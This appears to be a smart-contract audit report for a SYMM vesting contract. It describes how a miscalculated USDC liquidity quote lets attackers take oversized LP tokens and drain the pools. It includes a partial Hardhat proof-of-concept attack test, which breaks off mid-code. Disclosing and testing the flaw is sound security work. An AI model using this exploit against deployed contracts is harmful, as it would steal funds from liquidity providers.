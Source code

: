 ### Impact

1. Economic Imbalance:
- The incorrect USDC requirement calculation allows attackers to provide liquidity with negligible USDC amounts.
- Attackers receive disproportionately valuable LP tokens, leading to a significant economic imbalance within the protocol.
2. Value Extraction:
- Attackers can extract substantial value from the protocol by converting LP tokens back to USDC and SYMM.
- Even after incurring a 50% penalty for early LP token claims, attackers still profit due to the initial miscalculation.
3. Protocol Drain:
- The protocol's liquidity pools can be drained of USDC and SYMM, reducing the available liquidity for legitimate users.
- This can lead to a loss of trust and confidence in the protocol, as users may find their assets devalued or inaccessible.
4. Market Manipulation:
- The vulnerability can be exploited to manipulate the market value of SYMM and LP tokens.
Attackers can artificially inflate or deflate token values, impacting the broader market and other stakeholders.

### PoC

Paste this test into `token/tests/symmVesting.behavior.ts` and run it by calling

```bash
npx hardhat test --grep "Add Liquidity" --show-stack-traces
```

```tsx
	it("should allow draining USDC from pool via early LP token claim penalty", async () => {
			// SETUP - Attack parameters
			const symmAmount = e(50) // 50 SYMM with 18 decimals
			const minLpAmount = e("0.05")
			
			// Get interfaces to required contracts
			const poolAddress = await symmVesting.POOL()
			const poolContract = await ethers.getContractAt("IPool", poolAddress)
			const routerAddress = await symmVesting.ROUTER()
			const routerContract = await ethers.getContractAt("IRouter", routerAddress)
			const lpTokenContract = await ethers.getContractAt("IERC20", poolAddress)
			
			// Get current pool balances for reference
			const balancesBefore = await poolContract.getCurrentLiveBalances()
			const symmBalanceBefore = balancesBefore[0]
			const usdcBalanceBefore = balancesBefore[1]
			
			console.log("\n--------- ATTACK START ---------")
			console.log("Pool SYMM Balance:                 ", symmBalanceBefore.toString())
			console.log("Pool USDC Balance:                 ", usdcBalanceBefore.toString())
			
			// Calculate correct vs. quoted USDC amounts
			const correctUsdcAmount = (BigInt(symmAmount) * BigInt(usdcBalanceBefore)) / BigInt(symmBalanceBefore)
			const [quotedUsdcAmount, expectedLpAmount] = await symmVesting.getLiquidityQuote(symmAmount)
			
			console.log("Correct USDC required:             ", correctUsdcAmount.toString())
			console.log("Quoted USDC required:              ", quotedUsdcAmount.toString())
			console.log("Ratio (correct/quoted):            ", Number(correctUsdcAmount) / Number(quotedUsdcAmount))
			
			// Record starting balances
			const userSymmBalanceBefore = await symmToken.balanceOf(await user1.getAddress())
```